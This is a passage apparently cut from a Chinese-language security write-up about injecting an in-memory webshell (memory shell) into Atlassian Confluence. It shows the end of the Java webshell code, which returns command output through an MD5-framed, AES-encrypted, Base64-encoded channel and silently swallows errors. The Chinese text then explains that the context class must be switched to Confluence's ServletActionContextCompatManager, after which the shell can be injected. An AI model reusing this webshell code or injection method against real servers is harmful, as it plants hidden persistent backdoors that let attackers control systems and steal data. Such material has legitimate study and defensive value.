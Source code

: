 ```plain
                                        printWriter.write(md5.substring(0, 16));
                                        printWriter.write(Base64.getEncoder().encodeToString(aes(arrOut.toByteArray(), true)));
                                        printWriter.write(md5.substring(16));
                                        printWriter.flush();
                                        printWriter.close();
                                    }
                                }
                            }
                        }
                    }

                }catch (Throwable e){
                }
            }
        }catch (Exception e){

        }
    }


}
```

我们获取 Context 的类需要改为`com.atlassian.confluence.compat.struts2.servletactioncontext.ServletActionContextCompatManager`  
最后即可成功注入内存马

[![](assets/1709112096-e4388c0e41cf1cbd23715050f01dd591.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227111541-7cd4f660-d51e-1.png)

[![](assets/1709112096-f743b5dba22000503f1e2ea4c3a278ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227111545-7f4a201e-d51e-1.png)
